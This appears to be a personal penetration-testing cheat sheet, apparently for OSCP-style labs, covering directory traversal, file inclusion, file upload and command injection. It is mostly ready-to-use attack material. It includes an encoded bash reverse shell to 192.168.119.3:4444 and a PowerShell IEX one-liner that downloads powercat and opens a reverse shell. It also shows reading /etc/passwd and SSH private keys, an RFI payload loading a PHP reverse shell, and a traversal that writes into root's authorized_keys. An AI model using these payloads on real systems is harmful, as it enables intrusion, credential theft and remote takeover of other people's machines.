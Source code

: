 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell
## Interesting Arguments
1. ``` powershell.exe -EncodedCommand {base64 command} ```

## Local File Inclusion LFI
- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
1. try find useful password after /etc/passwd for opening services (you scanned!) e.g. redis have rce -> go get ``` /etc/redis/redis.conf ```
2. can use it to priv esc too! -> creating a rogue php inside the file system and load it e.g. /run/redis/test.php || CHECK ALL WRITABLE PATH!!c
3. See the source code of the web! e.g. index.php, main.py
### Interesting file path
1. Service configuration files
2. leaked db file path e.g. /var/db/mydb <- this is sqlite
3. oscp cheat sheet listed files
4. [Windows] Progra~1 = program files | Progra~2 = program files (x86)

### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
- Least common (LFI > RFI)
- Host a web server for exposing exploit php 
  
  e.g. php-reverse-shell.php

  ``` python3 -m http.server 80 ```
- open reverse shell server

    ``` nc -lvnp 4444 ```
- RFI request to the website
  
  ``` ?page=http://{ip}/php-reverse-shell.php ```



# File Upload Vuln
 
## w/ Executable Files
- Prepare a file that can run CMD
- Reverse shell
- file type exclusion e.g. php -> pHP
- aspx -> mspx  


## w/o Executable Files
- Generate SSH key 

    ``` ssh-keygen ```

- Directory traversal for http request header
  
    Edit filename

    ``` ../../../../../root/.ssh/authorized_keys ``` : storing ``` 

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer

- run ``` ssh -i fileup root@{ip} ```

# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
